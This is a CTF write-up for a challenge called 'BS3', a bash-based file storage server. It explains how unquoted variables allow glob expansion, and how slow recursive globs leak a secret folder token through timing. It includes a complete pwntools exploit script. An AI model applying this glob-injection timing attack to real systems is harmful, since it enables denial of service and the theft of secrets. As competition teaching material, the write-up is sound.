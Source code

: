 # TeamItaly Preselection CTF 2024

## [misc] BS3 (0 solves)

Check out my amazing private storage system:

`nc bs3.challs.external.open.ecsc2024.it 38315`

Author: Lorenzo Catoni <@lorenzcat>

## Overview

The challenge is a tcp server in bash that allows the user to store and retrieve files. To store a file the user must request a token, each token corresponds to a folder in which the user can store or read files. The goal of the challenge is to retrieve the flag file, stored in a folder whose token is unknown.

## Solution

The problem is that the server never puts quotes around the variables and thus they are subject to word splitting and globbing. This is a very insecure practice and it can lead to a wide range of vulnerabilities. One of them is denial of service, immagine a string like: `/*/../*/../*/../*/../*`, it would expand to match all files in the root directory, then for each directory matched it would go back to root with `..` and match again all files in the root and so on matching an huge number of files. As you can imagine this could be a very slow operation and could lead to a denial of service.

In our case we can use this to discover the token of the flag folder, let's say the flag folder is `2e43504685f3cfea`, the glob of `1*/../../*/../*/../*/../*` is instantaneous because it doesn't match any file starting with 1, the glob of `2*/../../*/../*/../*/../*` however takes a very long time as explained before. We can use this to discover the token of the flag folder one character at a time by checking which character makes the glob take a long time.

## Exploit

```py
#!/usr/bin/env python3

import os

HOST = os.environ.get("HOST", "todo.challs.todo.it")
PORT = int(os.environ.get("PORT", 38315))

from base64 import b64decode
from dataclasses import dataclass
from pwn import remote
import time

r = remote(HOST, PORT, level='info')

# find correct number of wildcards to notice slowdown
payload = b'*/../../*'
for i in range(20):
 r.recvuntil(b'4. Exit\n')
 r.sendline(b'2')
 r.recvuntil(b'Enter token:')
 r.sendline(payload + b'/../*'*i)
 r.recvuntil(b'Enter file name:')
 r.sendline(b'asd')
 t0 = time.time()
 r.recvline()
 dt = time.time() - t0

 # 1 second should be enough to distinguish cases, 
 # if it pings slower than that it's a problem
 if dt > 1:
  break
else:
 raise Exception('Impossible')

print(f'{dt=}, {i=}')
payload += b'/../*'*i

@dataclass
class Timed:
 b: bytes
 t: float

found = b''
for _ in range(16):
 times = []
 for s in b'0123456789abcdef':
  s = bytes((s,))

  r.recvuntil(b'4. Exit\n')
  r.sendline(b'2')
  r.recvuntil(b'Enter token:')
  r.sendline(found + s + payload)
  r.recvuntil(b'Enter file name:')
  r.sendline(b'asd')
  t0 = time.time()
  r.recvline()
  dt = time.time() - t0
  times.append(Timed(s, dt))

 # print(times)
 found += max(times, key=lambda e: e.t).b
 print(found) # show something


r.recvuntil(b'4. Exit\n')
r.sendline(b'3')
r.recvuntil(b'Enter token:')
r.sendline(found)
r.recvuntil(b'Enter file name:')
r.sendline(b'flag')
flag = r.recvline().strip()
print(b64decode(flag).decode())
r.close()
```
